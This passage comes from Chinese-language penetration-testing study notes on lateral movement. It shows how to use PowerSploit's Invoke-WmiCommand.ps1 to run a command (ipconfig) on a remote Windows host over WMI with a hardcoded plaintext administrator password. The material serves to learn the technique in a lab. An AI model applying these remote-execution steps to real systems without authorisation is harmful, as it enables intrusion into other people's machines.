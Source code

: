     ![image-20240622171439933](Kerberos/image-20240622171439933.png)

#### 4.2.7 Invoke-WMICommand - 明文

1. Invoke-WmiCommand.ps1 是 PowerSploit 工具包里的一部分。该脚本**利用 Powershell 调用** WMI 来远程执行命令。PowerSploit 项目地址：

    > https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-WmiCommand.ps1
    > 可惜项目已经停了。

2. 运行以下命令来执行：
    ```powershell
    # 导入 Invoke-WmiCommand.ps1 脚本
    Import-Module .\Invoke-WmiCommand.ps1
    # 指定目标系统用户名
    $User = "administrator"
    # 指定目标系统的密码
    $Password = ConvertTo-SecureString "CJYcjy320723" -AsPlainText -Force
    # 整合账号密码，以便导入 Credential
    $Cred = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList $User, $Password
    # 指定要执行的命令和目标 IP
    $Remote = Invoke-WmiCommand -Payload {ipconfig} -Credential $Cred -ComputerName 192.168.31.2
    # 回显结果
    $Remote.PayloadOutput
    ```
